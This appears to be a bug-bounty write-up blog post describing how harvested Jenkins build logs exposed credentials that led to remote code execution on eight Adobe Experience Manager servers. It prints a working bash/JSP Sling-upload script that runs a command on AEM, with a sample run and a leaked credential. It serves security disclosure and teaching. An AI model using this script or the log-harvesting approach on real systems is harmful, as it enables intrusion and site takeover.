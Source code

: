```yaml
---
layout: post
title: "Exposed Jenkins instance to RCE on 8 Adobe Experience Managers"
author: Corben Leo
---
```


### <font>&#128075;&#127996; introduction:</font>
This is a short write-up of how I progressed from discovering a Jenkins instance to getting shells on 8 Adobe Experience Manager servers and gaining edit access to a company's main sites. Along with this blog-post, I'm releasing a tool called <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>jenkinz</a>.

<b><i>Note:</i></b> as this was a finding in a private program, I'm not allowed to disclose any details that could be used to identify them. For this reason, I've changed and redacted details.

### <font>&#128373;&#65039;recon</font>
Back in June, I decided to change my workflow and automate more of my recon. After doing so, I decided to perform a test scan against a private program I was in. After the scan finished, I started looking through the HTTP titles of every subdomain it had discovered.

One in particular caught my eye: `Dashboard [Jenkins] - https://wcm-pipeline03.dev.test.example.com`

I visited the subdomain and found that it was indeed running Jenkins. In the past I have had success getting Code Execution on Jenkins via Orange Tsai's <a target='_blank' rel='noopener noreferrer' class='link' href='https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html'>research</a>, so I tried that but unfortunately it was patched.

However, the `/signup` endpoint was enabled, so I registered for an account and logged in, and started looking at the builds: `https://wcm-pipeline03.dev.test.example.com/view/all/builds`.

I'm a huge sucker for Continuous Integration applications and I've done some <a target='_blank' rel='noopener noreferrer' class='link' href='https://edoverflow.com/2019/ci-knew-there-would-be-bugs-here/'>research</a> on finding secrets in build logs on TravisCI. Since this Jenkins server was running the latest version and there weren't any public vulnerabilities in it, I decided to go down a different route: finding secrets in build logs. 

Just like with Travis-CI, it would be an incredibly tedious task to manually retrieve every build log and environment variable for every job, so I automated all of it. 

### <font>&#127881; jenkinz -&gt; secretz -&gt; rce</font>
<a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>jenkinz</a> is the the tool that came out of this; it retrieves every build (log and environment variables) for every job ever created and run on a given Jenkins instance and saves them all to an output directory.

After running the tool, I had a large amount of data through. `ripgrep` is great for this - after searching for a few different strings, I found credentials in one of the logs:

```
found credentials for id: aem-ingress -> username: aemingress Password: Goodbye2017!
```

By reading through the entire log file, it was evident that this job was a script that logged into several Adobe Experience Manager servers, performed some tasks, then emailed a developer. I had discovered and tested a few of their AEM instances in the past, so I went back through my historical recon data, searched on Github, and found 8 of their AEMs. 


The credentials worked and I was an admin on all of them.


Next, I took a <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/0ang3el/aem-hacker/blob/master/aem-rce-sling-script.sh'>bash script</a> by <a target='_blank' rel='noopener noreferrer' class='link' href='https://twitter.com/0ang3el'>0ang3el</a> and modified it to only run the `uname` command:


```bash
#!/usr/bin/bash

if [ "$#" -ne 3 ]; then
	echo "Usage: $0 URL USERNAME PASSWORD"
	exit 2
fi

url="$1"
username="$2"
password="$3"

payload=$(cat <<-EOT
<%@ page import="java.io.*" %>
<% 
	Process proc = Runtime.getRuntime().exec('uname -a');
	
	BufferedReader stdInput = new BufferedReader(new InputStreamReader(proc.getInputStream()));
	StringBuilder sb = new StringBuilder();
	String s = null;
	while ((s = stdInput.readLine()) != null) {
		sb.append(s + "\\\\n");
	}
	
	String output = sb.toString();
%>
<%=output %>
EOT
)

echo "$payload" > /tmp/html.jsp

#Create rcetype
curl -k -s -X POST -H "Referer: $url" -u "$username:$password" "$url/apps/rcetype" -Fhtml.jsp=@/tmp/html.jsp > /dev/null

# Create rcenode
curl -k -s -X POST -H "Referer: $url" -u "$username:$password" "$url/rcenode" -Fsling:resourceType=rcetype > /dev/null

echo "Now navigate to $url/rcenode.html"
```


Running it with the credentials I'd found:


```bash
$ bash aem-rce-sling.script.sh http://aem-instance.example.com "aemingress" "Goodbye2017!"

Now navigate to https://aem-instance.example.com/rcenode.html
```

After navigating to the URL, the `uname -a` command executed.


Not only did I have RCE though, I had full privileges and could've deleted or edited all of their main sites, including their subsidaries in AEM:

`http://aem-instance.example.com/editor.html/content/example/example_com/us/en/home/index.html`


## outro:

I had a super fun time with this vulnerability and I enjoyed tooling it. Hopefully in your bug-bounty, pentesting, and/or red-teaming journey, the <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>tool</a> is useful!

<br>Happy hacking,<br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>